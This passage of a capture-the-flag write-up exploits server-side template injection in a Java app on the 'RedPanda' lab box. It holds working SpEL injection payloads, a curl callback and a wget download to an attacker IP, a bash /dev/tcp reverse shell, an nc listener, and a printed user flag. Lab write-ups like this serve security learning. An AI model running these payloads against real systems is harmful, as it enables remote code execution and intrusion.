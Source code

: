```bash
Upgrade-Insecure-Requests: 1

name=*{T(java.lang.System).getenv()}

## Response:
[... snip ...]
<h2 class="searched">
You searched for: {PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, SHELL=/bin/bash, JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64, TERM=unknown, USER=woodenk, LANG=en_US.UTF-8, SUDO_USER=root, SUDO_COMMAND=/usr/bin/java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar, SUDO_GID=0, MAIL=/var/mail/woodenk, LOGNAME=woodenk, SUDO_UID=0, HOME=/home/woodenk}
</h2>
```

Going to Github [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java) we find a one-liner to execute commands, and with this we're able get callbacks from the victim:
```bash
## Request
name=*{T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.6/test')}

## Callback
➜  redpanda python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [15/Aug/2022 21:37:09] code 404, message File not found
10.10.11.170 - - [15/Aug/2022 21:37:09] "GET /test HTTP/1.1" 404 -
```

Trying a bunch of one-liners fails, I am not able to get a reverse shell. So instead we go to create a payload and upload it to the victim.

```bash
➜  redpanda echo "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" > revshell.sh
```

```bash
## Request 1 - Upload
name=*{T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.6/revshell.sh')}

## Request 2 - Execute
name=*{T(java.lang.Runtime).getRuntime().exec('bash revshell.sh')}
```

```bash
➜  redpanda nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.170] 32894
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 

woodenk@redpanda:~$ cat user.txt
4f591f5aaa56e50ec3bb7ac485cc81c3
```
